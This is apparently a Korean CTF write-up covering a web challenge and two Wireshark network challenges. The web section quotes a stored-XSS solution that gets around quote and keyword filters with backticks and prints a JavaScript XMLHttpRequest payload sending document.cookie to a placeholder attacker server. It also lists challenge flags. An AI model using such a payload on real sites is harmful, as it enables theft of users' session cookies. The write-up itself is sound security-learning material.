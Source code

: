 ### 3.WEB3 - Cookie(?) (500p)
사실 이문제도 못풀었다. 막판에 힌트가 나왔는데 '쿠키' 가 힌트였다.
쿠키를 보니 `FLAG+IS+HERE%21%21` 라는 값을 가지는 flag 라는 쿠키가 있었고,
웹은 개시판이였다. XSS를 통해서 쿠키를 보면되겠다~~ 라고 생각을 했다. (그게 끝나기 15분 전이였다는건 함정)

그뒤에 풀이를 듣어보니


```
게시글을 올리고 바로 볼 수 있는데 XSS가 발생한다고 한다.
서버에 cookie.php를 올려두고 location.href= 어쩌고 할려고 했는데 location이 들어가면 XSS라면서 제대로 등록되지 않는다. XMLHttpRequest로 GET 리퀘스트를 보내는 방법으로 쿠키 탈취를 시도했는데 ', "가 필터링되어서 없어져 버린다.

x = String(/some-string/) // "/some-string/"
x = x.substring(1, x.length-1) // "some-string"
위와 같은 방법으로 정규식을 이용해서 필터링 bypass를 시도해봤는데 코드가 너무 길어져서 input error가 나온다.

function httpGet(e){
    var t = new XMLHttpRequest;
    return t.open(`GET`, e, !1), t.send(null), t.responseText
}
var u = `http://{server-addr}/cookie.php?c=`;
httpGet(u+document.cookie);
구글링을 열심히 해보니 `를 이용해서 문자열을 선언해도 JS에서는 제대로 인식한다는 것을 알 수 있었다.

대충 위와 같이 스크립트를 짜고(난독화 결과) 쓸데없는 공백과 개행을 없애고 포스팅했다.

스크립트가 제대로 들어간 것을 확인한 뒤 콘솔을 보니까 보안정책 어쩌고 나오길래 안되는 줄 알았다.

flag=Flag is Here!!
flag=Flag is Here!!
flag=w3_give_@dviCe_bUT_w3_CaNnoT_give_C0NdUct
```

라고 한다. -thanks to [junhoYeo](https://github.com/junhoyeo)


## Network(네트워크)

### 1.net1 - Findme (300p)
쉬운 문제였다. 그냥 wireshark 로 열고 **find string (packet byte)**로 해서 `flag{` 를 검색했더니 잘린듯한 패킷이 바로나왔다.
![네떡](https://ibb.co/ks6cYL)
이 패킷을 찾은 후 상단바에서 Analysis -> Follow -> TCP strem 에 가서 다시 `flag{`를 검색하면 플래그가 나온다.
![네떡2](https://ibb.co/bCZpDL)

FLAG IS : `flag{N3tw0rk_Ch@llenge_SOlv3d!_Congr@tz!!}`

### 2.net2 - TrueORFalse (400p)
후... 이걸 끝나기 15분 전에 본개 아니라 30분 전에만 봤어도 풀었을 문제다... 
쉽게 말하면 노가다 문제인데 상단바에서 Analysis -> Follow -> TCP strem에 가면 왼쪽에 stream이 있고 숫자를 조절할 수 있다. 그냥 거기서 3 ~ 21 까지 ATBTCF 형태로 이루어 진 데이터를 보며 순서대로 True Or False로 구분한다. 
